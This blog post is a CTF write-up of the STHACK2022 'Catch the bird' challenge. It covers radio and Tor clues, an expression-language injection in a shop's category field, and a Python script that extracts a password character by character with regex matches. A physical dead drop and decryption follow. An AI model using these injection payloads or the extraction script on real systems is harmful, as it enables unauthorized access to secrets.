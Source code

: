 +++
title = "STHACK2022 - Catch the bird, a trip from web to IRL"
date = "2022-05-21"
description = ""
[extra]
cover.image = "images/STHACK2022/sthack2022_post-card.png"
cover.alt = "STHACK2022 - Catch the bird, a trip from web to IRL"
+++

* Challenge author: ajani
* Category: `web`, `physical`

The challenge started with the following Post Card

![Post Card]({{ site.baseurl }}/images/STHACK2022/sthack2022_post-card.png)

<!--more-->

We also had the following scenario:

```php
This time I think Archer have got himself involved in something far to big for him.

Last time I've seen him he seemed agitated, anxious, he kept telling about that man he was following, how he felt it had been made, and something about Malta and some bird statuette. That was 9 days ago and I haven't heard from Miles since then.

It seems strange, but it wouldn't be the first time he didn't give news for days until he woke up to some unknown county of this damn country, with an empty bottle of the worst whisky and a skull full of the finest hangover. The guy love the bottle to much, and she didn't returned him so well. Yet, I could tell something was off, it didn't felt right.

That was until this morning, when a post card arrived at the bureau mailbox. Postcard At first sight it's just a simple postcard to tell me he need to take some vacations right ? But here's the thing, Miles never lived at the 101.10 Marconi street...

If Archer ask for my help then it must really be serious. I need to find where this statuette is, and judging by the postcard I must hurry, 'cause whomever have the damn bird, it seems like he want to sell it.
```

We quickly realized we needed to listen on the **Radio Frequency** 101.1Mhz inside the "Hotel de Ville". This was achieved using a Xiaomi Android Application, we recorded everything broadcasted on the frequency in this file:

* [Recording FM @ 101.1 MHz]({{ site.baseurl }}/images/STHACK2022/FM_101.1 MHz_20220520212911.mp3)

We can hear the well known military code, which gave us this .onion website:
http://sthackmdbidwkyebhklnfnwmqhj3oxnke5inylzrtwzenr752tn77oad.onion:80, we accessed it using Tor.

After some time exploring the website we discovered "a feature" to send a mail with an extract of the current code when an error occured on the website.

We found two ways to trigger an error:
- trying to login using a wrong password: `LoginController.php`
- while injecting and breaking context inside the shop part of the website: `Lexer.php`

The team spent too much time trying to find a Server Side Template Injection since it was using a `twig` template in line 21@LoginController.php.

![Dump code controller]({{ site.baseurl }}/images/STHACK2022/sthack2022_dump_code_controller.png)
![Dump code lexer]({{ site.baseurl }}/images/STHACK2022/sthack2022_dump_code_lexer.png)

However while we were fuzzing the `category` field, we discovered the '`~`' was working to concatenate two strings in Twig and tried the following requests:

| Query | Output | Indicator |
| ---- | ---- | ---- |
| category=category == 'forgery' | Displays the product "Coated Something" | True |
| category=category == 'forg'~'ery' | Displays the product "Coated Something" | True |
| category=category == 'forg'~'ery'~'7'*7 | Don't display but do not throw an error| False |

We had an oracle !! However we didn't manage to find an interesting primitive allowing us to execute commands.
So we used our favorite tool "Burp Suite Intruder" and fuzzed with the top 100 functions in PHP and Symfony and some weird behaviors started to appear.
The function `constant` was recognised by the parsing engine, then it clicked, the `Lexer.php` file was located in a folder called `expression language`. We tried to confirm the function using several global constants.

```py
category=category == 'forg'~'ery'~'7'*7
category=category == 'forg'~'ery'~constant("DB_USER")
category=category == 'forg'~'ery'~constant("INFO_ALL")
category=category == 'forg'~'ery'~constant("true")
category=category == 'forg'~'ery'~constant("null")
```

However it's only giving us the information about the existence of a constant it would be better to extract their value. Especially the value of the constant `self::PASSWORD`@LoginController.php.

First, we attempt to access the constant located in another file on the server. Thankfully the server errors were quite verbose and give us half of the payload :)

```py
Error : Attempted to load class "LoginController" from namespace "\App\\Controller\".
Did you forget a "use" statement for "App\Controller\LoginController"?
```

The trick here was to add several backslash `\\\\`

```py
'forg'~'ery'~constant("\\\\App\\\\Controller\\\\LoginController::PASSWORD")
```

Now that we confirmed the access to the `PASSWORD` constant, we tried to read the characters one-by-one like any array with `array[0] == 'A'`. But the pain was only starting, Expression Language constant cannot be accessed like an array... We finally found an alternative using **Regular Expressions** and created a small script which was ... too slow, remember we are using Tor to connect to the .onion website and the shared network on site was a bit laggy. 

```py
import requests

flag = "Ybhr"
charset = "azertyuiopqsdfghjklmwxcvbnAZERTYUIOPQSDFGHJKLMWXCVBN1234567890"

for c in charset:
    burp0_url = "http://sthackmdbidwkyebhklnfnwmqhj3oxnke5inylzrtwzenr752tn77oad.onion:80/"
    burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://sthackmdbidwkyebhklnfnwmqhj3oxnke5inylzrtwzenr752tn77oad.onion", "Connection": "close", "Referer": "http://sthackmdbidwkyebhklnfnwmqhj3oxnke5inylzrtwzenr752tn77oad.onion/", "Upgrade-Insecure-Requests": "1"}
    burp0_data = {"category": "constant(\"\\\\App\\\\Controller\\\\LoginController::PASSWORD\") matches \"/^"+flag+"\" ", "& category ": "= 'forgery'"}
    r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    print(c, len(r.text))
```

Once again we turned to our Intruder and fuzzed with the charset `a-zA-Z0-9`, with the following payload: `category=constant("\\App\\Controller\\LoginController::PASSWORD") matches "/^Y[FUZZED_CHAR_ADDED_HERE]/" && category == 'forgery'` and we got the following quite quickly: `Ybhr5vmjJD` after switching to our 4G network for a more reliable access.

Now we can access the Admin Panel and manage the products. Only one product (deaddrop) as available for purchase. 

![Web Login]({{ site.baseurl }}/images/STHACK2022/sthack2022_deaddrop-login.png)

> Dead Drops is an anonymous, offline, peer to peer file-sharing network in public space. Anyone can access a Dead Drop and everyone may install a Dead Drop in their neighborhood/city. A Dead Drop must be public accessible. - The Dead Drops Manifesto

The product coordinates were really close to us and the challenge was listed in the categories `web` and `physical`. We went there with a laptop and other tools like a lockpick set. Obviously the deaddrop wasn't embbeded into the "Hotel de Ville"'s wall, it was cemented to a pad lock ;)

![]({{ site.baseurl }}/images/STHACK2022/sthack2022_gpslocate.png)

Some interesting encrypted files were stored on the deaddrop and we had the key to decrypt them using the command `openssl aes-256-cbc -d -in whisky.txt.aes256cbc -out secrets2.txt.new`

![AES secrets]({{ site.baseurl }}/images/STHACK2022/sthack2022_aes_key.png)

And now for the final step: a new onion URL from one of the decrypted file (maltapyzyfnwvgkl4se7tlhlrohule77cgnaguy2nouxyvosovjldbyd.onion). It seems to be an aunction website, but the site is not yet opened. The opening is scheduled for the 23rd May but something smells fishy, the Javascript was heavily obfuscated, and we are still waiting for our flag. 

```js
// Example of Pentester's nightmare
function _0x18c8(_0x46078f,_0xd7ff98){var _0x33e42d=_0x3b53();return _0x18c8=function(_0x164e09,_0x470955){_0x164e09=_0x164e09-(0x1063+-0x19*0x187+0x16b7);var _0xf46362=_0x33e42d[_0x164e09];return _0xf46362;},_0x18c8(_0x46078f,_0xd7ff98);}function _0x3b53(){var _0x574953=['aW9uYWwgbm','4JDouuU','fEdgK'[...]
```

Let's discuss methodology to apprehend this problem:

![JS deobf]({{ site.baseurl }}/images/STHACK2022/sthack2022_deobf.jpg)

Having spent wayyyy too much time on this challenge, we used a quite radical approach and changed our VM internal date slowly to arrived at the opening date: `date -s "2021-03-23 16:58:22"` and then we got our flag.

Overall the challenge was nice and interesting to resolve with my teammates. Having a bit of physical without resorting to use a full arsenal of HackRF, Proxmark or a crowbar was quite refreshing :)

![Scoreboard]({{ site.baseurl }}/images/STHACK2022/sthack2022_scoreboard.jpg)